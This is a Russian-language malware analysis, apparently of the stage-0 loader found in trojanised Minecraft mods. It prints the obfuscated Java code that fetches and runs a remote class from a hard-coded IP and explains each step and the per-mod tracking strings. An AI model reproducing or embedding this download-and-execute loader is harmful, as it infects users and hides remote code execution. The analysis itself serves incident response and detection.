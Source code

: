 Код метода обфусцирован (зашифрован), используя `new String(new byte[]{...})` вместо строковых литералов.

Из образца D3SL «Create Infernal Expansion Plus», подражательной версии «Create Infernal Expansion Compat» с вредоносным ПО, вставленным в основной класс мода:
```java
static void _1685f49242dd46ef9c553d8af1a4e0bb() {
  Class.forName(new String(new byte[] {
      // "Utility"
    85, 116, 105, 108, 105, 116, 121
  }), true, (ClassLoader) Class.forName(new String(new byte[] {
      // "java.net.URLClassLoader"
    106, 97, 118, 97, 46, 110, 101, 116, 46, 85, 82, 76, 67, 108, 97, 115, 115, 76, 111, 97, 100, 101, 114
  })).getConstructor(URL[].class).newInstance(new URL[] {
    new URL(new String(new byte[] {
        // "http"
      104, 116, 116, 112
    }), new String(new byte[] {
        // "85.217.144.130"
      56, 53, 46, 50, 49, 55, 46, 49, 52, 52, 46, 49, 51, 48
    }), 8080, new String(new byte[] {
        // "/dl"
        47, 100, 108
        }))
  })).getMethod(new String(new byte[] {
      // "run"
    114, 117, 110
  }), String.class).invoke((Object) null, "-114.-18.38.108.-100");
}
```

Это:
1. Создаёт `URLClassLoader` с URL'ом `http://[85.217.144.130:8080]/dl` ([shodan](https://www.shodan.io/host/85.217.144.130))
2. Загружает класс `Utility` из classloader'а, получает код из интернета
3. Вызывает метод `run` на `Utility`, передача строкового аргумента, разного для каждого зараженного мода (!). Например:
    * Skyblock Core: "`-74.-10.78.-106.12`"
    * Dungeonz: "`-114.-18.38.108.-100`"
    * HavenElytra: "`-114.-18.38.108.-100`"
    * Vault Integrations: "`-114.-18.38.108.-100`"

Передаваемые числа анализируются как байты на этапе 1 и записываются в файл с именем «.ref». Судя по всему, они позволяют автору отслеживать источники заражения.

Создание загрузчика классов жестко привязано к этому URL-адресу и не использует URL-адрес Cloudflare, который используется на этапе 1. Поскольку этот IP-адрес сейчас отключен, это означает, что полезная нагрузка Этапа 0, о которой мы сейчас знаем, больше не работает.

## Стадия 1 (`dl.jar`)

SHA-1: `dc43c4685c3f47808ac207d1667cc1eb915b2d82`
